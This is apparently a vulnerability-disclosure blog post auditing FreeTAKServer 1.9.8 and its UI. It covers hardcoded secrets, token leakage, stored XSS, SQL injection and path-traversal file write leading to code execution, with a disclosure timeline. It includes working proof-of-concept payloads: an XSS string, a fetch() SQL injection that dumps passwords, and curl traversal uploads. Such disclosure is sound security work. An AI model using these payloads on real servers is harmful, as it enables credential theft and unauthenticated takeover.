Securityaudit of an OpenSource Software: FreeTAKServer
The parrot is not dead, its RESTing
A colleague and I decided to have a look at a open-source project called FreeTAKServer and its frontend FreeTAKServer-UI. Mostly for fun, but there’s always bugs to be had!
What is FreeTAKServer
According to the Github pages:
FTS is a Python3 Flask implementation of the TAK Server for devices like ATAK, WinTAK, and ITAK, it is cross-platform and runs from a multi node installation on AWS down to the Android edition. It’s free and open source (released under the Eclipse Public License.
Vulnerabilities
The vulnerabilities that will be discussed below affects currently the:
- FreeTAKServer-1.9.8 Public
- FreeTAKServer-UI-1.9.5
- Hosted on Fully patched Ubuntu 20.04.3 LTS
- Python 3.8.10
- Flask 1.1.2
- Werkzeug 2.0.3
A list of the following vulnerabilities was discovered:
- [CVE-2022-25510] Hardcoded Flask Secrets Key
- [CVE-2022-25512] API and Websocket key leakage
- [CVE-2022-25508] Unauthenticated RestAPI Endpoints
- [CVE-2022-25507] XSS through Emergency Broadcast System from WebUI
- [CVE-2022-25507] XSS through Emergency Broadcast System from End User Device
- [CVE-2022-25506] SQL Injection leaking User Database
- [CVE-2022-25511] Arbitrary File Write Leading to Remote Code Execution
- Through WebUI (Authenticated)
- Through End User Device (Unauthenticated)
Lets begin!
[CVE-2022-25510] Hardcoded Flask Secrets Key
Let’s start of with something easy. Flask signs all their client sessions with a secret key, usually defined in an Environment Variable. In this case though there’s three places that these are hardcoded into. 
This gives a malicious user the ability to sign their own cookies (using for example: Flask-Unsign), and internally change the UID of the current user and assume any other user, for example UID 1 which is the Admin. (Privilege Escalation)
Another interesting issue that you run into as well is that having two Flask servers with the same secret key makes it possible for a user to reuse a UID 1 cookie from Server A, and apply that cookie to Server B logging in to the same UID 1. (Lateral movement/Authentication bypass)
[CVE-2022-25512] API and Websocket Keys galore
With FreeTAKServer comes also a REST API, and Websockets to programatically manage the server and fetch/post data. These API keys and Tokens should be guarded in the same way as username and password for any application. The issue arise when the API keys are fetching data into the webapplication and are reflected in the javascript of the response on each request in the web application. Both are easily extraced using built-in DevTools or through an XSS attack.
API Bearer Token

Websocket Token

Remember to always check the source code!
[CVE-2022-25508] Unauthenticated Public RestAPI Endpoint
In the RestAPI there is also the Endpoint /ManageRoute/postRoute which is unauthenticated. While this might not seem interesting at first, it is possible to broadcast new routes (suggested tracks to take) to every End User Device (EUD) connected to the server. This can create two issues, either create a Denial of Service situation where a malicious user can fill the entire map with routes, making it impossible to use the map in the EUD. The second scenario might be to create a route on which possible users might take and therefor control some of the paths and direct users into bad situations.

Example Request
POST /ManageRoute/postRoute
Host: FreeTAKServer:19023
{
"longitude": -77.02385,
"latitude": 38.999,
"routeName": "trip to Phil",
"startName": "Washington",
"endName": "Philadelphia",
"timeout": 40000,
"latitudeDest": 39.940,
"longitudeDest": -75.01385
}
[CVE-2022-25507] XSS through Emergency Alert
In the FreeTAKServer-UI there is a function to create and view Emergency Alerts that are originating from either the End User Device or from the UI itself. Both Avenues are susceptible to a Stored Cross Site scripting vulnerability in the Callsign parameter.
Web Interface
In the case of a XSS in the WebUI it is as simple as having a callsign with the payload of <img src onerror=alert(/payload/)> which will trigger the Emergency function and display the emergency in the WebUI.


End User Device
What’s more interesting of a scenario is that it is possible to push Emergencies from any of the EUDs, these can range from a 911, TIC (Troops in Contact) or similar. This Emergency will broadcast to each EUD (Which are not affected) but also shown in the WebUI, again triggering the XSS payload.
This can be chained together with the API keys in the reponse in order to obtain a server RestAPI key for further exploitation, which can take a normal user in the field to a Web Server admin


[CVE-2022-25506] SQL Injection on AuthenticateUser
The API endpoint AuthenticateUser contains a SQL Injection into the SQLite3 Database that is handling the authentication process of the SystemUsers. In order to exploit this vulnerability the attacker need to possess a valid API key, which can either be leaked through the XSS to a End User Device, or given as a part of the UAV Operator ability which broadcasts the GPS and Video feed of a UAV-Drone.
From the SQL Injection it is possible to list all the Username, UsedID and Clear-Text passwords in the database.
Proof of Concept
Posting the follwing snippet into a web browsers console will trigger the SQL Injection and return the name and password for each user in the SystemUsers table.
fetch("http://atak.FreeTAKServer.com:19023/AuthenticateUser?username=abc\" UNION SELECT (SELECT group_concat(name||':'||password) FROM SystemUser),'b','c','PASSWORD','d','e'--&password=PASSWORD", {
"headers": {
"accept": "*/*",
"accept-language": "en-US,en;q=0.9",
"authorization": "Bearer ValidAPIKey",
"content-type": "application/json"
},
"mode": "cors"
});
Will return the following response:

Which clearly shows the database results in clear-text.
Arbitrary File Write (Remote Code Execution)
In the TAK EcoSystem there exists a file sharing function for mission essential items called DataPackages, these can be shared either by Peer-to-Peer transmission, or saved on the TAK-Server for later downloading and sharing.
During the analysis we encountered two specific endpoints in the FreeTAKServer software that can be abused as a Arbitrary File Write, which inturn can be leveraged into Remote Code Execution through either a Cron job (depending on the accesslevel for the user running FTS) or through the Flask Templating functions.
[CVE-2022-25511] User Interface Datapackage
From the WebUI it is possible to (once logged in) upload DataPackages directly to the server so that it is possible to download the zipped files on the EUD in the field.
The route /DataPackageTable takes an argument ?filename= which is not sanitized for either the Path or the Filename outside of the UI, which creates the issues that you can place any file, anywhere on the system. Albeit going this route will add some junk XML data into the end of the file, this making it extremely hard to achieve code execution through Python or Flask Templating.
This was achieved using a transparent proxy to catch and modify the webrequest, but can also be achieved using something like Curl
Proof Of Concept
Request through Burpsuite:

File on system:

(Note that the webserver is at that moment run as root, Not Recommended)
Bash equivalent PoC:
curl -i -s -k -X POST -H 'Host: atak.FreeTAKServer.com:19023' -H 'Authorization: Bearer ValidRestAPIToken' -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOUUxfHjKyflBjjhn' -H 'Accept-Encoding: gzip, deflate' --data-binary '------WebKitFormBoundaryOUUxfHjKyflBjjhn\x0d\x0aContent-Disposition: form-data; name=\"assetfile\"; filename=\"test.ext\"\x0d\x0aContent-Type: text/plain\x0d\x0a\x0d\x0aThisIs FromDataPackageTable\x0d\x0a\x0d\x0a------WebKitFormBoundaryOUUxfHjKyflBjjhn--\x0d\x0a' 'http://atak.FreeTAKServer.com:19023/DataPackageTable?filename=../../../../../../../../tmp/file.ext&creator='
End User Device MissionUpload
Every End User Device also has the ability to upload files and Datapackages for sharing and consumption elsewhere, this is done through a Marti API that is specific to the EUDs. Although the Marti API is just another RestAPI that is used in the applications but can be abused over the TCP/8080 or the SSL equivalent (Given a valid user certificate) TCP/8443.
The difference between the WebUI way and the Marti way is that it does not add junk at the end of the file, as the EUDs are responsible for creating valid DataPackages.
Function Sourcecode:
@app.route('/Marti/sync/missionupload', methods=[const.POST])
def upload():
from FreeTAKServer.model.ServiceObjects.SSLDataPackageVariables import SSLDataPackageVariables
logger.info('dataoackage upload started')
file_hash = request.args.get('hash')
app.logger.info(f"Data Package hash = {str(file_hash)}")
letters = string.ascii_letters
uid = ''.join(random.choice(letters) for i in range(4))
uid = 'uid-' + str(uid)
filename = request.args.get('filename')
creatorUid = request.args.get('creatorUid')
file = request.files.getlist('assetfile')[0]
directory = Path(dp_directory, file_hash)
if not Path.exists(directory):
os.mkdir(str(directory))
file.save(os.path.join(str(directory), filename))
fileSize = Path(str(directory), filename).stat().st_size
callsign = str(
FlaskFunctions().getSubmissionUser(creatorUid,
dbController)) # fetchone() gives a tuple, so only grab the first element
FlaskFunctions().create_dp(dbController, uid=uid, Name=filename, Hash=file_hash, SubmissionUser=callsign,
CreatorUid=creatorUid, Size=fileSize)
if USINGSSL == False:
return "http://" + IP + ':' + str(HTTPPORT) + "/Marti/api/sync/metadata/" + file_hash + "/tool"
else:
return "https://" + IP + ':' + str(HTTPPORT) + "/Marti/api/sync/metadata/" + file_hash + "/tool"
Whats visible in the vulnerable code block is that the parameter hash is passed to os.path.join((str(directory), filename)) which when supplied alot of ../ (8 to be exact) it puts the base directory at the root of the filesystem and then the file is put wherever its directed (given write permissions)
Note that this does not require any authentication only that you are connected to the FreeTAKServer with a valid connection.
Proof of Concept
curl -vvv -F "assetfile=@rce.html" "http://atak.FreeTAKServer.com:8080/Marti/sync/missionupload?hash=/../../../../../../../usr/local/lib/python3.8/dist-packages/FreeTAKServer-UI/app/home/templates/&filename=janne2.html&creatorUid="
Sending the file contents to the missionupload endpoint results in a valid response and browsing to the file on the WebUI results in Code Execution:

The file will be uploaded to /usr/local/lib/python3.8/dist-packages/FreeTAKServer-UI/app/home/templates which is where the Flask server is hosting its files from.

In discussions with the developers, they mentioned that FreeTAKServer is Unsafe due to the architecture and should not be accessible to the public internet but only ran inside a trusted network.
Disclosure Timeline
14-02-2022 Discovered Vulnerabilities
15-02-2022 Wrote this Blog post
15-02-2022 Disclosed to developers
16-02-2022 Applied for CVE Through MITRE
17-02-2022 Developers pushed patch to FreeTAKServer v1.9.9
11-03-2022 Assigned CVEs
Resources
- FreeTAKServer : https://github.com/FreeTAKTeam/FreeTakServer
- FreeTAKServer-UI : https://github.com/FreeTAKTeam/UI
- Flask-Unsign : https://github.com/Paradoxis/Flask-Unsign
- Curl : https://curl.se/